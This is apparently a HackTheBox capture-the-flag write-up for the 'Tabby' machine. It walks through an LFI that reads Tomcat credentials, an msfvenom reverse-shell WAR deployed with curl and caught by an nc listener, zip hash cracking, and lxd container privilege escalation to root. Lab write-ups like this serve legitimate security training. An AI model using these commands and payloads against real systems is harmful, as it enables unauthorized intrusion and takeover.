



# Tabby - Easy

Target IP: **10.129.73.2**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.73.2 -v```

Output shows standard port 22 for ssh, port 80 running Apache 2.4.41, and port 8080 running Apache Tomcat.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to the website at port 80. We are greeted with this home page.


Some on the buttons direct us to ```megahosting.htb```, so let's add it to our ```/etc/hosts``` file.

The site mostly seems static but there is one interesting functionality. Clicking on "News" leads us to ```/news.php```, where a ```file``` parameter is inputted and displays us a file. In this case, a file going by ```statement``` is pulled up.


That is interesting, but it's not clear yet how we can exploit this, so let's pivot.

Navigating to port 8080 shows us the successful installation message.


On ```/docs```, we can see the version number, 9.0.31.


There doesn't seem to be any relevant CVEs for this version.

We can navigate to ```/manager``` and try to log in with some common credentials, but none of them work.


This leads me to believe there is extra enumeration to be done on the main website.

Directory enumeration gets us some interest results, but we are restricted from viewing it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://megahosting.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://megahosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 14175, Words: 2135, Lines: 374, Duration: 9ms]
files                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 10ms]
assets                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 6ms]
                        [Status: 200, Size: 14175, Words: 2135, Lines: 374, Duration: 7ms]
:: Progress: [87651/87651] :: Job [1/1] :: 6060 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

Subdomain enumeration doesn't get us anything back.

I tried fuzzing for the ```file``` parameter in the aforementioned ```/news.php```, but nothing new comes back either.

We're clearing missing something.

We fuzzed for potential file names, but we didn't test for LFI on the ```file``` parameter. Let's see.

Indeed, it works.



We can grab the ```tomcat-users.xml``` file through this.

After researching, the file was located at ```/usr/share/tomcat9/etc/tomcat-users.xml```. Viewing the page source, we can see the ```tomcat``` admin user's cleartext password.



We can log in now, on ```/host-manager``` not ```/manager```.



The account doesn't have the ```manager-gui``` role so we can't exploit the usual method of uploading a ```.war``` payload on the manager then running it. The user had another role named ```manager-script```. Perhaps we can use this. A search reveals that this role gives permissions to access Tomcat's text-based command interface located at ```/manager/text```.

We can still generate a payload and deploy it using the text API.

Let's use ```msfvenom``` to first get our payload.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.194 LPORT=4444 -f war -o revshell.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: revshell.war
```

Then, we can interact with the command interface with ```curl```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://megahosting.htb:8080/manager/text/deploy?path=/shell"
OK - Deployed application at context path [/shell]
```

After navigating to the newly deployed page, we get a shell as ```tomcat```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.73.2 52662
whoami
tomcat
```

Searching around the file system, there is an interesting backup archive created by ```ash```, which is probably who we are looking to get access to.

```
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 4 root root 4096 Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```

Let's transfer this over to our attack box.

It requires a password to unzip, but the previous password we found doesn't work.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password: 
```

We can extract the hash with ```zip2john```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ zip2john 16162020_backup.zip > hash
ver 1.0 16162020_backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/favicon.ico PKZIP Encr: TS_chk, cmplen=338, decmplen=766, crc=282B6DE2 ts=7DB5 cs=7db5 type=8
ver 1.0 16162020_backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/index.php PKZIP Encr: TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6 ts=5935 cs=5935 type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** 16162020_backup.zip/var/www/html/logo.png PKZIP Encr: TS_chk, cmplen=2906, decmplen=2894, crc=02F9F45F ts=5D46 cs=5d46 type=0
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/news.php PKZIP Encr: TS_chk, cmplen=114, decmplen=123, crc=5C67F19E ts=5A7A cs=5a7a type=8
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/Readme.txt PKZIP Encr: TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3 ts=6A8B cs=6a8b type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ cat hash
16162020_backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::16162020_backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip
```

Then, we can crack it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-5bpnwm2tct]─[~]
└──╼ [★]$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)     
1g 0:00:00:01 DONE (2026-10-01 16:14) 1.000g/s 10362Kp/s 10362Kc/s 10362KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

However, there is nothing useful inside.

I'm pretty lost at this point, but maybe ```ash``` used reused her password for the zip file.

It works!

```
tomcat@tabby:~$ su - ash
Password: 
ash@tabby:~$ whoami
ash
```

We can proceed to get the user flag from here.

## Root Flag

We can't run ```sudo``` with ```ash```.

Checking ```ash```'s group memberships reveal something valuable.

```
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

The account is a part of the ```lxd``` group, which means we have full control over the LXD Daemon. We can escalate our privileges this way.

Let's build a container image and export it to our remote machine, where then we can use our privileges to start a container instance with the image and mount the entire filesystem.

We can follow this guide on [HackTricks](https://hacktricks.wiki/en/linux-hardening/user-information/interesting-groups-linux-pe/lxd-privilege-escalation.html). This is on the attack host.

```
sudo apt update
sudo apt install -y golang-go gcc debootstrap rsync gpg squashfs-tools git make build-essential libwin-hivex-perl wimtools genisoimage    

# Clone repo
mkdir -p $HOME/go/src/github.com/lxc/
cd $HOME/go/src/github.com/lxc/
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd ./distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container - Beware of architecture while compiling locally.
sudo $HOME/go/bin/distrobuilder build-incus alpine.yaml -o image.release=3.18 -o image.architecture=x86_64
```

We transfer ```incus.tar.xz``` and ```rootfs.squashfs``` to the remote machine, then run these commands to create an container instance from the image and mount the file system.

```
ash@tabby:~$ lxc image import incus.tar.xz rootfs.squashfs --alias alpine
ash@tabby:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
ash@tabby:~$ lxc list
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
ash@tabby:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Finally, we can start it up and spawn in a shell on the host filesystem

```
ash@tabby:~$ lxc start privesc
ash@tabby:~$ lxc exec privesc /bin/sh
~ # whoami
root
```

We can proceed to get the root flag at ```/mnt/root```.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
